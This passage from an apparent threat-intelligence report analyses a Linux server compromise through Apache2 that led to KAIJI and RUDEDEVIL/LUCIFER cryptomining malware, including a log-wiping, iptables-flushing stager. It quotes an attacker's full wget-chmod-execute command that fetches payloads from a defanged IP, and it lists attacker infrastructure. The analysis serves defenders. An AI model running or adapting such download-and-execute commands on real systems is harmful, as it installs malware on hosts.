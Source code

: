 Our team observed a host that was initially compromised in March 2024 by obtaining arbitrary code execution on a server running Apache2. Evidence of this compromise is seen in the execution of the `id` command via the Apache2 process, after which we see the threat actor exploiting the web server and deploying KAIJI malware under the `www-data` user account.

Shortly after the Kaiji deployment, the attacker used the `www-data` account to download a script named `00.sh` from the URL `http://61.160.194[.]160:35130`, which, after further investigation, also hosted several versions of RUDEDEVIL malware.

`00.sh` is a stager that:

* Sets its default shell and PATH.
* Deletes several log files to erase traces of execution.
* Leverages `ps`, `netstat`, `lsof` and a list of common mining process names to kill any potential mining competition on the compromised host.
* Flushes the `iptables` rules on the host, sets several `iptables` rules to block connections to specific destination ports and mining pools, and disables `iptables`.
* Finally, a second stage (`sss6`/`sss68`) is downloaded and executed, and execution traces are erased.

The figure below shows a compressed version of the stager. Lines annotated with `[...]` are shortened to enhance readability. 

![Compressed version of the 00.sh stager](/assets/images/betting-on-bots/image5.png "Compressed version of the 00.sh stager")

### Fileserver

Via the backdoored web server process, the attacker downloaded and executed malware through the following command:

```
sh -c wget http://107.178.101[.]245:5488/l64;chmod 777 l64;./l64;rm -r l64;wget http://107.178.101[.]245:5488/l86;chmod 777 l86;./l86;rm -r l86
```

The `l64` and `l86` files are downloaded from `http://107.178.101[.]245:5488`, after which they are granted all permissions, executed, and removed. Looking at the server that is hosting these malware samples, we see the following:

![Rejetto File Server Hosting Several Pieces of Malware](/assets/images/betting-on-bots/image30.png "Rejetto File Server Hosting Several Pieces of Malware")

This seems to be a file server, hosting several types of malware for different architectures. The file server leverages the Rejetto technology. These malwares have upload dates and download counters. For example, the `download.sh` file that was uploaded September 10th, was already downloaded 3,100 times. 

![Download Counter Indicating 3000+ Downloads Within 2 Weeks of Upload](/assets/images/betting-on-bots/image25.png "Download Counter Indicating 3000+ Downloads Within 2 Weeks of Upload")

### RUDEDEVIL/LUCIFER

Upon closer inspection, the file `sss6`, which was downloaded and executed, has been identified as the RUDEDEVIL malware. Early in the execution process, we encounter an embedded message characteristic of this malware family:

![RUDEDEVIL Malware Characteristic](/assets/images/betting-on-bots/image11.png "RUDEDEVIL Malware Characteristic")
